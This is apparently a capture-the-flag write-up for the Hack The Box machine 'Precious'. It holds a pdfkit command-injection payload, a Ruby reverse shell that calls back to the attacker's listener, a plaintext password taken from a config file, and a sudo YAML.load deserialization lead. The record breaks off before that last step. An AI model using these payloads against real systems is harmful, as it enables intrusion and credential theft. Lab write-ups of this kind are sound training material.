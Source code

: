 ## Precious Writeup

### Machine IP

``` 
10.10.11.189
```

### nmap scan

```
$ nmap -sC -sV -Pn -T4 10.10.11.189

Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-26 08:30 EST
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.37s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.04 seconds
```

We can see ssh and http are open. We also have something called Phusion Passenger on port 80.


### precious.htb

The http site takes us to a "Convert Web Page to PDF" tool.

Let's spin up a python web server with:

```
python3 -m http.server
```

Using our local IP to connect to the python server and tring to download the root page of the web server...sure enough, the tool gives us a PDF file with the directory listing.

Trying to convert a file with an inline `<script>` tag gives us nothing. Seems as though there is some kind of input sanitization.


### pdf file analysis

Analysing the output pdf file from earlier with `exiftool`:

```
$ exiftool out.pdf
ExifTool Version Number         : 12.52
File Name                       : out.pdf
Directory                       : .
File Size                       : 4.6 kB
File Modification Date/Time     : 2023:01:26 08:49:11-05:00
File Access Date/Time           : 2023:01:26 08:49:21-05:00
File Inode Change Date/Time     : 2023:01:26 10:07:43-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Interesting... the creator is 'pdfkit v0.8.6'. Let's scour the web for any exploits for this version of pdfkit!


### pdfkit exploit

[This link](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) gives us information about a command injection exploit via ruby, demonstrated by the following example code:

```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf 
# 5 seconds wait... 
```

Let's try this out...sure enough, the page seems to hang for around 5 seconds on submitting the web page!

Time to head to revshells...

 
### Reverse Shell Injection

We read that this exploit was a ruby based exploit. So we spin up a `nc` listener:

```
nc -lnvp 4444
```

and insert a ruby based revshell into our URL like so...

```
http://<LOCALIP>:<LOCALPORT>/?name=%20  {`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("<LOCALIP>",<NCLISTENERPORT>))'`}
```

Clicking submit, we get reverse shell access!


### Directory searching

We find a few files relating to the pdf converter.

Navigating to `/home`, we find there are two users:
1. `ruby` (current user)
2. `henry`

In `henry`'s home directory, we find the `user.txt` flag. cat, head and less don't work on this file do to restrictions. 

Luckily, if we do a quick `whoami`, we find that the current user is `ruby`.
After a bit of searching, we find the file `config` in the `/home/ruby/.bundle` folder. Catting out this file...

```
$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

We find henry's password! Time to ssh!


### SSH (henry)

Using the password we found for user `henry` from before:

```
$ ssh  henry@10.10.11.189             
henry@10.10.11.189's password: *************
```

Boom! We're in!
Now we can cat the user password!

```
$ cat user.txt
b47ea5d5a17c22a8975f45d7386b1f37
```


### linpeas

Checking what we can run as sudo:

```
$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

So, we can run `/opt/update_dependencies.rb` as root. Let's cat the file...

```
$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

[Hacktricks tells us](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) that we can perform a deserialization attack via `YAML.load()`.

Let's check the `dependencies.yml` file:
